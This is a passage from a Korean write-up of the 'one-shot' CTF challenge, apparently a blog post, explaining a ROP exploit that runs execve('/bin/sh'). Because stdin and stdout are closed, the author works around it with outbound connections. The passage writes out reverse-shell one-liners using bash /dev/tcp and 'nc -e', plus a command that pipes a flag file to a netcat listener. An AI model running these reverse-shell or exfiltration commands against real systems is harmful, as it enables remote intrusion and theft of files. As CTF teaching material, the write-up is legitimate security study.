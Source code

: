 참고로 CTF 당시에 작성한 payload를 써서 strace로 추적해보면 정상적으로 `execve("/bin/sh", 0, 0)`가 실행되는 것을 볼 수있는데, 물론 `stdin`,`stdout`이 막혀있기때문에 바로 종료되는 것을 볼 수 있다.

![]({{ site.baseurl }}/images/myria/one-shot-writeup/oneshot_04.PNG)  

그렇기때문에 여기서는 `리버스쉘`을 사용해서 클라이언트쪽에서 포트를 열어주고, 서버쪽에서 그 포트로 접속하여 flag를 보내게하던지, 아니면 쉘을 띄워주던지해야한다.
그래서 밑의 2가지 방법 등으로 쉘을 띄울수가 있다.

1. bash의 /dev/tcp를 이용한 방법 (ip:`127.0.0.1` port:`1234`)
>/bin/sh >& /dev/tcp/127.0.0.1/1234 0>&1

2. netcat을 이용한 방법
>nc -e /bin/sh 127.0.0.1 1234

문제는 서버쪽에서 저 연결을 유지를 못시켜주는 것 같아서 (stdin, stdout이 닫힌것과 관련있을지도), 결국 또 하루종일 리버스쉘띄우려다가 결국 못띄우고, 명령어 하나씩 실행해서 결과를 서버쪽에 리턴받는 방식으로 하기로 했다.


계획은 이렇다.

1. 자신의 개인서버에서 netcat으로 포트를 연다.
>  nc -l -p 1234

2. execve("/bin/sh", ["/bin/sh","-c", "명령어",0], 0)을 실행하여 원하는 명령을 실행하고, 그 결과를 자신의 서버로 전송하는 payload를 작성해 공격한다.
>  명령어 : cat /home/sherlock/flag | nc 127.0.0.1 1234

3. 1~2를 통해 `flag`의 위치를 알아내고, `flag`값을 자신의 서버에 전송한다.
4. `flag`를 획득한다.


자 그럼 먼저 `netcat`으로 서버의 포트를 열어주자.

![]({{ site.baseurl }}/images/myria/one-shot-writeup/oneshot_05.PNG)  

그리고 작성된 `python code`를 실행하자.

![]({{ site.baseurl }}/images/myria/one-shot-writeup/oneshot_06.PNG)

![]({{ site.baseurl }}/images/myria/one-shot-writeup/oneshot_07.PNG)

1234 포트를 열어둔 곳으로 가보면, 포트가 닫히고 flag값이 들어와있는 것을 볼 수 있다.

이렇게 문제를 풀 수 있는데, CTF 당시에는 가젯들을 이용해서 "/bin/sh"라는 값을 원하는 장소에 쓰는데 애를 먹었다.
CTF가 끝나고 나서 다른 팀의 writeup을 보고 좀 더 깔끔하고 편하게 원하는 값을 복사해서 쓰는 payload가 있길래 참고해서 더 쉽게 `exploit`하는 법을 적는다.

처음에는 buffer는 의미가 없고, 뒤의 ret만 조작해서 `ROP`하려했는데, buffer에 입력한 값을 복사해서 재활용할 수 있었다.

![]({{ site.baseurl }}/images/myria/one-shot-writeup/oneshot_08.PNG)

위의 코드를 보면 `i`변수에 `v5`의 주소를 넣고, `buffer`의 주소를 증가시키며 그 값을 v5에 `v2 byte`만큼 복사하는 것을 볼 수 있다.
이를 다시 어셈블리어로 보면 아래와 같다.

![]({{ site.baseurl }}/images/myria/one-shot-writeup/oneshot_09.PNG)

`rdi`가 있는 주소의 1바이트 값을 `rsi`에 복사하는 것을 볼 수 있다.
이를 반복하는데, `eax`만큼 반복하게 되어, 결국 `eax`byte만큼 `rdi`에서 `rsi`로 복사되게 된다.

